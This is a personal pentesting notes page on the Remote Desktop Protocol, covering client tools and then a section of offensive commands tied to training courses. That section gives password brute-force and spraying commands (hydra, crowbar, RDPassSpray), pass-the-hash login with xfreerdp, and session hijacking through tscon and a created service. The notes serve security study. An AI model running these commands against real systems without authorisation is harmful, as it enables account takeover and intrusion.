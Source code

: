 # Remote Desktop Protocol (RDP)

[![windowsfundamentals](../../../cybersecurity/_badges/htb/windowsfundamentals.svg)](https://academy.hackthebox.com/course/preview/windows-fundamentals)
[![footprinting](../../../cybersecurity/_badges/htb/footprinting.svg)](https://academy.hackthebox.com/course/preview/footprinting)

<div class="row row-cols-lg-2"><div>

Remote Desktop Protocol (RDP) is a protocol used to access a  desktop with a graphical interface from another computer over a network connection.

🐊️ **Port**: 3389 <small>(TCP or rarely UDP)</small>

On Windows, there is the built-in Windows RDP Client: `mstsc.exe`.

There is [rdesktop](https://github.com/rdesktop/rdesktop) (1.1k ⭐).

There is [FreeRDP](https://github.com/FreeRDP/FreeRDP) (7.5k ⭐), and there is a graphical version too [xfreerdp-gui](https://github.com/wyllianbs/xfreerdp-gui) (29 ⭐).

```shell!
$ xfreerdp /u:username /p:password /v:IP
$ xfreerdp /u:username /pth:hash /v:IP
$ xfreerdp /dynamic-resolution +clipboard /timeout:50000 /cert:ignore /v:IP /u:x /p:y
```
</div><div>

There is [Remmina](https://github.com/FreeRDP/Remmina) (1.9k ⭐, `apt install remmina`) which has an easy-to-use graphical interface.

* `remmina`: start the graphical interface
  * Enter the IP of the target
  * Enter the credentials
  * Connect
* Then, I would advise toggling "dynamic resolution update" in the left menu, so that you have a bigger screen.
* In preferences, we are able to select a keyboard mapping
* [You can scale the screen too](https://askubuntu.com/questions/1075098/remmina-scaling-options)

**Note ⚠️**: In preferences, quality settings, you can select to use poor quality with wallpaper to increase performance.
</div></div>

<hr class="sep-both">

## RDP Pentester Notes ☠️

<div class="row row-cols-lg-2"><div>

#### Enumeration

[![attacking_common_services](../../../cybersecurity/_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)
[![passwordattacks](../../../cybersecurity/_badges/thmp/passwordattacks.svg)](https://tryhackme.com/room/passwordattacks)

* Using [nmap](/cybersecurity/red-team/tools/scanners/ports/nmap.md) to run scripts

```ps
$ # nmap RDP cookies are leaving traces (--packet-trace)
$ sudo nmap -sV -sC -p 3389 --script rdp* 10.129.201.248
```

#### Foothold

[![password_attacks](../../../cybersecurity/_badges/htb/password_attacks.svg)](https://academy.hackthebox.com/course/preview/password-attacks)
[![attacking_common_services](../../../cybersecurity/_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)
[![passwordattacks](../../../cybersecurity/_badges/thmp/passwordattacks.svg)](https://tryhackme.com/room/passwordattacks)

* The password may be weak and vulnerable to [brute force](/cybersecurity/red-team/s2.discovery/techniques/network/auth.md).

```shell!
$ hydra -L user.list -P password.list rdp://IP -V
$ crowbar -b rdp -s IP/32 -u username -C password.list -v -n 64
```

There is also [RDPassSpray](https://github.com/xFreed0m/RDPassSpray) <small>(0.6k ⭐)</small>.

```ps
$ python3 RDPassSpray.py -u username -p password -t IP:port
$ python3 RDPassSpray.py -U usernames.lst -p password -t IP:port
$ python3 RDPassSpray.py [...] -d domain
$ python3 RDPassSpray.py [...] -T rdp_servers.lst
```
</div><div>

#### Exploitation

[![attacking_common_services](../../../cybersecurity/_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)

* **RDP Session Hijacking**: connect to another user session. On Windows, as admin, we can use [tscon](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/tscon).

```ps
PS> tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

On Windows Server prior to 2019 as a local administrator, we can use:

```ps
PS> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
PS> net start sessionhijack
```

#### Well-known CVEs

* [BlueKeep Vulnerability](https://en.wikipedia.org/wiki/BlueKeep) <small>(2019, RCE, unstable/BSoD)</small>

#### Additional Tools

* [rdp-sec-check.pl](https://github.com/CiscoCXSecurity/rdp-sec-check) <small>(0.2k ⭐, 2021 🪦)</small>
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* ms-wbt-server (Windows RDP implementation)
* [Network Level Authentication (NLA)](https://en.wikipedia.org/wiki/Remote_Desktop_Services#Network_Level_Authentication)
</div><div>
</div></div>